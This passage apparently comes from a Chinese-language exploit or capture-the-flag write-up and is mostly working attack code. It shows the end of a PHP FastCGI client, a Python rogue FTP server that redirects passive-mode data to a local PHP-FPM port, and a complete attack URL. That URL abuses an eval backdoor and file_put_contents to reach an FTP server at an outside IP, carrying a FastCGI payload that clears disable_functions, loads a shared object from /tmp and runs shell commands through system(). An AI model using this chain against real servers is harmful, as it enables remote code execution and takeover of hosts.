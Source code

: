 ```
    'CONTENT_LENGTH'    => strlen($code)
);
// print_r($_REQUEST);
// print_r($params);
//echo "Call: $uri\n\n";
echo $client->request($params, $code)."\n";
?>
```

利用如下脚本在vps上搭建一个恶意的ftp服务器

```
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
s.bind(('0.0.0.0', 23))
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 welcome\n')
#Service ready for new user.
#Client send anonymous username
#USER anonymous
conn.send(b'331 Please specify the password.\n')
#User name okay, need password.
#Client send anonymous password.
#PASS anonymous
conn.send(b'230 Login successful.\n')
#User logged in, proceed. Logged out if appropriate.
#TYPE I
conn.send(b'200 Switching to Binary mode.\n')
#Size /
conn.send(b'550 Could not get the file size.\n')
#EPSV (1)
conn.send(b'150 ok\n')
#PASV
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9001)\n') #STOR / (2)
conn.send(b'150 Permission denied.\n')
#QUIT
conn.send(b'221 Goodbye.\n')
conn.close()
```

最后通过 eval() 构造如下恶意代码通过 file_put_contents() 函数与我们 VPS 上恶意的 FTP 服务器建立连接：

带着我们Exp生成的Payload后的DATA部分去触发SSRF即可执行我们so文件中的命令

```
/add_api.php?backdoor=$file = $_GET['file'];$data = $_GET['data'];file_put_contents($file,$data);&file=ftp://aaa@47.93.248.221:23/123&data=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%029%00%00%11%0BGATEWAY_INTERFACEFastCGI%2F1.0%0E%04REQUEST_METHODPOST%0F%19SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Fadd_api.php%0B%0CSCRIPT_NAME%2Fadd_api.php%0C%0EQUERY_STRINGcommand%3Dwhoami%0B%1BREQUEST_URI%2Fadd_api.php%3Fcommand%3Dwhoami%0C%0CDOCUMENT_URI%2Fadd_api.php%09%80%00%00%ADPHP_VALUEunserialize_callback_func+%3D+system%0Aextension_dir+%3D+%2Ftmp%0Aextension+%3D+1.so%0Adisable_classes+%3D+%0Adisable_functions+%3D+%0Aallow_url_include+%3D+On%0Aopen_basedir+%3D+%2F%0Aauto_prepend_file+%3D+%0F%0DSERVER_SOFTWARE80sec%2Fwofeiwo%0B%09REMOTE_ADDR127.0.0.1%0B%04REMOTE_PORT9001%0B%09SERVER_ADDR127.0.0.1%0B%02SERVER_PORT80%0B%09SERVER_NAMElocalhost%0F%08SERVER_PROTOCOLHTTP%2F1.1%0E%02CONTENT_LENGTH49%01%04%00%01%00%00%00%00%01%05%00%01%001%00%00%3C%3Fphp+system%28%24_REQUEST%5B%27command%27%5D%29%3B+phpinfo%28%29%3B+%3F%3E%01%05%00%01%00%00%00%00
```
